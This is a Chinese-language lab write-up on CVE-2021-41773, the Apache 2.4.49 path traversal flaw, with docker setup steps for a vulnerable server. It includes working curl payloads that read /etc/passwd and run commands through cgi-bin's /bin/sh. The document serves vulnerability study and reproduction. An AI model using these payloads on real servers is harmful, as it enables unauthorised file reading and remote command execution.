


# Apache HTTP Server 2.4.49 路径穿越漏洞（CVE-2021-41773）

Apache HTTP Server 是 Apache 基金会开源的一款流行的 HTTP 服务器。在其 2.4.49 版本中，引入了一个路径穿越漏洞，满足下面两个条件的 Apache 服务器将会受到影响：

- 版本等于 2.4.49
- 穿越的目录允许被访问，比如配置了 `<Directory />Require all granted</Directory>`。（默认情况下是不允许的）

攻击者利用这个漏洞，可以读取位于 Apache 服务器 Web 目录以外的其他文件，或者读取 Web 目录中的脚本文件源码，或者在开启了 cgi 或 cgid 的服务器上执行任意命令。

参考链接：

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/ptswarm/status/1445376079548624899
- https://twitter.com/HackerGautam/status/1445412108863041544
- https://twitter.com/snyff/status/1445565903161102344

## 漏洞环境

执行如下命令编译及运行一个存在漏洞的 Apache HTTPd 2.4.49 版本服务器：

```
docker compose build
docker compose up -d
```

环境启动后，访问 `http://your-ip:8080` 即可看到 Apache 默认的 `It works!` 页面。

## 漏洞利用

使用如下 CURL 命令来发送 Payload（注意其中的 `/icons/` 必须是一个存在且可访问的目录）：

```
curl -v --path-as-is http://your-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

可见，成功读取到 `/etc/passwd`：



在服务端开启了 cgi 或 cgid 这两个 mod 的情况下，这个路径穿越漏洞将可以执行任意命令：

```
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```


